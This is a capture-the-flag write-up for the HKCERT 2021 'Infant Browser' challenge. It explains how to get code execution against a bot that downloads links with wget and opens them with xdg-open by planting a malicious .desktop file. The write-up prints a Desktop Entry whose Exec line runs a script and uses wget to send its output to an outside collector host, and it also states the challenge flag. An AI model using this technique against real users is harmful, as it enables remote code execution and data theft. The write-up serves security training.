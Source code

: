 ## Infant Browser (pwn web 50 pts)  
### Challenge:  
<http://chal-s1.hkcert21.pwnable.hk:28098/>  
<http://chal-s2.hkcert21.pwnable.hk:28098/>  

What if someone uses wget as the browser? Flag: find the flag in the root directory with name `/proof*.sh`

NOTE: Both links serve the same challenge. You may choose any one of them.

UPDATE (12 Nov 21:52): Updated link to challenge server.

* * * * *

-   The objective of this kind of challenges is to send a malicious webpage / URI to steal sensitive information or even execute arbitrary code in the victim's machine. Unlike XSS where the impact is limited to the victim's account in a particular website, a browser / desktop app exploit, or client-side attack in general, may compromise the entire victim's machine.

-   In this challenge, we are allowed to send the victim an arbitrary URI and they will open it with `xdg-open` (just like clicking on links in a browser). To trick a victim to execute arbitrary code, we can craft an XDG Desktop Entry, which could specify what command to be executed.

-   But before we can trick the victim to open the Desktop Entry, we need to write the Desktop Entry to somewhere in the local filesystem. This could be done since the victim is using `wget` as the browser, and the current working directory is writable.

-   For example, you can upload a Desktop Entry file named `example.desktop` to your website (e.g. Github page), and then ask the victim bot to download it

```
[Desktop Entry]
Exec=sh -c "wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?`/proof*.sh`"
Type=Application
```

-   If this Desktop Entry is opened, then it will execute the command after `Exec=`, which will first execute `/proof*.sh` and obtain the output, and execute `wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?(the output from executing /proof*.sh)`, which allows you to capture the flag

-   Once the `example.desktop` file is written, you can ask the victim bot to open `file:///tmp/example.desktop` so that they will execute the code you planted before

-   But make sure you use a unique filename for the Desktop Entry file since the challenge platform is common to every participants

-   Too easy for you? Now you can try babyURIi...

### Attachment
- [infantbrowser_6939c231042fd155a512940cd0982f76.zip](https://github.com/6cyril/ctf-writeups/blob/master/HKCERT%20CTF%202021/files/infantbrowser_6939c231042fd155a512940cd0982f76.zip)

### Solution:  
Create a VM online, follow challenge instructions  

Flag: `hkcert21{Infant_Browser_flag_153283eeddd3002f}`  
  
